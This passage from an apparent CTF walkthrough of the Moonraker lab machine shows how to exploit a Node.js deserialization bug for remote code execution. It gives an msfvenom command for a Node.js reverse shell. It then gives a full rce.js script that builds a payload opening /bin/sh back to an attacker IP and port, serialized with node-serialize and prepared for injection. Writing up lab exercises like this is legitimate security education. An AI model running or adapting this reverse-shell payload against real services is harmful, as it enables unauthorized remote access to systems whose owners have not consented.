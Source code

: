 Again, I'm familiar with Node.js deserialization exploit. You can read about it [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

### Low-Privilege Shell

There’s a slight difference though—I’m using the reverse shell generated by `msfvenom` instead.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.20.128 LPORT=1234
```

Incorporate the output from `msfvenom` into `rce.js`. Remember to remove the enclosing round brackets.

<div class="filename"><span>rce.js</span></div>

```js
var rev = {
rce: function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(1234, "192.168.20.128", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); }
};

var serialize = require('node-serialize');
console.log(serialize.serialize(rev));
```

Run `node rce.js` to get the serialized string output.

![3e4d2d0a.png](/assets/images/posts/moonraker-1-walkthrough/3e4d2d0a.png)

Next, add the [IIFE](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) bracket `()` at the end of the serialized string output from the previous step before passing it to base64 for encoding.
